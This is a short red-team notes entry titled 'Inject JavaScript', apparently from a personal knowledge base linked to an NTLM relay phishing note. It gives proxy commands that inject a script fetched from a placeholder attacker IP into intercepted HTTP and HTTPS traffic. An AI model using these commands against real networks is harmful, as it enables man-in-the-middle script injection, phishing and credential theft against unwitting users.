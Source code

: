 # Inject JavaScript

```
set https.proxy.injectjs http[s]://<IP>/script.js

https.proxy on
```

```
set http.proxy.injectjs http[s]://<IP>/script.js

http.proxy on
```

---
## References

### Backlinks

- [[NTLM Relay Phishing]]

### DMCXBlue

- [DMCXBlue: Content Injection T1659](https://dmcxblue.gitbook.io/red-team-notes-2-0/red-team-techniques/initial-access/t1659-content-injection)